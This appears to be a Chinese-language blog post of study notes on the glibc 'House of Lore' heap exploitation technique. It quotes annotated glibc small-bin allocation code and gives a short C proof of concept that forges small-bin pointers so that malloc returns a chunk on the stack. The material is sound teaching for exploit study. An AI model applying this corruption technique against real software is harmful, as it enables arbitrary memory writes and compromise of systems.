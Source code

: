 ```yaml
---
layout: post
title: 'House of lore'
subtitle: 'House of lore'
date: 2021-04-20
categories: 技术
tags: heap_related
---
```


继续wiki搬运学习

https://wiki.x10sec.org/pwn/linux/glibc-heap/house_of_lore-zh/

# House of Lore

## 概述 

House of Lore 攻击与 Glibc 堆管理中的 Small Bin 的机制紧密相关。

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

House of Lore 利用的前提是需要控制 Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针。



其实本质就是small bin双链表的伪造，注意检查机制就行

## 基本原理 

如果在 malloc 的时候，申请的内存块在 small bin 范围内，那么执行的流程如下



```c
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // 获取 small bin 的索引
        idx = smallbin_index(nb);
        // 获取对应 small bin 中的 chunk 指针
        bin = bin_at(av, idx);
        // 先执行 victim= last(bin)，获取 small bin 的最后一个 chunk
        // 如果 victim = bin ，那说明该 bin 为空。
        // 如果不相等，那么会有两种情况
        if ((victim = last(bin)) != bin) {
            // 第一种情况，small bin 还没有初始化。
            if (victim == 0) /* initialization check */
                // 执行初始化，将 fast bins 中的 chunk 进行合并
                malloc_consolidate(av);
            // 第二种情况，small bin 中存在空闲的 chunk
            else {
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
                // 如果不是 main_arena，设置对应的标志
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```

从下面的这部分我们可以看出



```c
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
```

如果我们可以修改 small bin 的最后一个 chunk 的 bk 为我们指定内存地址的 fake chunk，并且同时满足之后的 bck->fd != victim 的检测，那么我们就可以使得 small bin 的 bk 恰好为我们构造的 fake chunk。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk。



示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <assert.h>


int main(int argc, char * argv[]){
	intptr_t* stack_buffer_1[4] = {0};
	intptr_t* stack_buffer_2[4] = {0};
	intptr_t *victim = malloc(0x100);
	malloc(0x10);
	free(victim);
	malloc(0x400);
	victim[1] = &stack_buffer_1; // victim_chunk_addr->bk = stack_buffer_1_addr
	stack_buffer_1[2] = victim-2; //stack_buffer_1->fd = victim_chunk_addr
	stack_buffer_1[3] = &stack_buffer_2; // stack_buffer_1->bk = stack_buffer_2_addr
	stack_buffer_2[2] = &stack_buffer_1;//stack_buffer_2->fd = stack_buffer_1_addr
//===============================line=================================
	intptr_t *p1 = malloc(0x100);
	intptr_t *p2 = malloc(0x100);//chunk on the stack
	malloc(0x100); //failed : bck->fd != victim
}
```

执行到line的时候的草图

![](/picture/heap_related/House of lore/1.jpg)



最后一次malloc(0x100)会crash因为访问非法区域当然后面这个bck->fd != victim条件也不会满足

![](/picture/heap_related/House of lore/2.png)



最终效果：申请到了栈上的堆块